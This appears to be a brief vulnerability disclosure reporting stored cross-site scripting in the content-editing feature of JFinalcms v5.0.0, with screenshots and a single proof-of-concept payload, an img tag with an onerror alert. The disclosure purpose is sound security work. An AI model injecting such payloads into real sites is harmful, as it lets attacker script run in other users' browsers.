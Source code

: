 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

Content data exists in storage XSS for editing

![图片](https://github.com/Jarvis-616/cms/assets/106567174/b5e2a09b-3fcd-4db1-8e9a-182579d455b6)

`"><img src=1 onerror=alert(1)>`

![图片](https://github.com/Jarvis-616/cms/assets/106567174/c333e6bd-0716-4401-8ee3-bd85bc3bf7ef)

succesed

![图片](https://github.com/Jarvis-616/cms/assets/106567174/dd9ccf37-dedf-4ec5-b475-461e4151a266)
